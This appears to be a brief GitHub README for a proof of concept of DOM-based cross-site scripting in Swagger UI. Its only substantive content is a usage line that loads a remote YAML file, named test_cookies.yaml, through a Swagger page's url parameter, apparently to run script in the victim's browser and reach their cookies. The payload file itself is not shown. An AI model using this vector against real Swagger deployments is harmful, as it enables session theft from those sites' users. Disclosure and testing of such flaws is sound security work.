 this is PoC for swagger DOM Xss :)


# usage
https://test.com/swagger_path/index.html?url=https://alharbe0.github.io/test_cookies.yaml
